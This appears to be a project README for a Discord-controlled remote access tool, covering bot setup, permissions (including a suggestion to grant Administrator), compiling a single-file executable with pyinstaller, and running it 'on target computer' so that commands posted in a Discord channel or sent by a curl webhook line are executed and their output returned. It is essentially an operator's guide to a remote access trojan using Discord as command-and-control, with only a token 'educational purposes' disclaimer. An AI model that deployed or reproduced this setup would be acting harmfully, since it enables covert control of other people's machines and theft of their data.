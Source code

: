 # Requirements
Python3
Discord
Discord BOT
Discord Webhook (optional, only if you don't want to interact directly with the server)

### Python Libs (you can install manually, or just run 'pip install -r requirements.txt'
discord.py (pip install discord)
pyinstaller (pip install pyinstaller)

# Guide
### Discord Bot
First, go to the discord developer application portal (https://discord.com/developers/applications) and create a new application.
In your apllication, go to "Bot" section, and click "Reset Token" button (you will use this token in the code). Select the "Message Content Intent" option.
Go to OAuth2 section, in "OAuth2 URL Generator" select "bot" option, and give the permissions "View Channels", "Send Messages", "Read Message History". Instead, if possible, you can just give the "Administrator" permission.
Copy the generated URL, paste in your browser, and add the bot to your server.

### Installation
Copy the Bot Token, and paste in the code.
Add the discord name of the users that will send the commands.
Compile to executable using pyinstaller: 
```
pyinstaller --onefile /path/to/main.py
```
The binary will be generated inside the "dist" folder. 
Now just execute the file on target computer, and send the commands on any text-channel of the discord server. 
The bot will read the message, and if the message owner is present on the list, it will execute the code and return the output.

### Webhook (Optional)
You also can use webhooks to send the commands, that way you won't interact directly with the server.
Go to Discord Server Settings > Integrations > Webhooks
Click "New Webhook", give it a name, select which channel the webhook will send the messages for you, and copy the webhook URL.
Now, you can use this command to send the commands with the webhook:
```
curl WEBHOOK_URL -H "Content-Type: application/json" --data "{\"content\": \"whoami\"}"
```

## Disclaimer: This project is for educational purposes only, I do not take responsibility for what you will do

